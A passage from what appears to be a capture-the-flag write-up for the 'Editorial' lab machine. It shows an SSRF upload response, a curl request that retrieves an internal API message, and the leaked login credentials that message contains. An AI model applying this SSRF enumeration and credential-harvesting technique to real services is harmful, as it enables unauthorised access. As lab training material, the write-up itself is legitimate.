 ```c
------WebKitFormBoundarygBlD0crl03qg37hx--

```

![](images/2024-06-16_03-09ssrf_api_enumeration.png)

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Jun 2024 07:09:32 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 51

static/uploads/78139655-cdb8-404f-ba6d-8b9b10066059
```

```c
┌──(kali㉿kali)-[~]
└─$ curl http://editorial.htb/static/uploads/78139655-cdb8-404f-ba6d-8b9b10066059
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

| Username | Password           |
| -------- | ------------------ |
| dev      | dev080217_devAPI!@ |
